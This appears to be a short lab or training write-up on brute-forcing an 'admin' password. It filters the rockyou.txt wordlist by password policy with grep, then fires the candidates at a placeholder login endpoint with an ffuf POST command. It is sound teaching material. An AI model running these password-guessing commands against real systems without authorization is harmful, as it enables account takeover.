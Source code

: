 # Brute-Forcing Passwords

### What is the password of the user 'admin'?

In this assessment we already have the user 'admin' and the goal is to get the his password. To accomplish that will use the rockyou.txt wordlist, but tailor the passwords to the application requirements in order to send unnecessary requests.

Password Requirments:

* Contains at least one upper-case character
* Contains at least one lower-case character
* Contains at least one digit
* Minimum length of 10 characters

**Step 1 -** Download the SecLists wordlist:

* {% code overflow="wrap" %}
  ```
  grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
  ```
  {% endcode %}
* Check your rockyou.txt directory.

**Step 2 -** Intercept the application POST login parameters:

* This can be done through the Inspect Element or with Burp Suite

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3 -** Brute-force the password:

* {% code overflow="wrap" %}
  ```
  ffuf -w ./custom_wordlist.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after a few seconds we manage to get the admin passowrd!
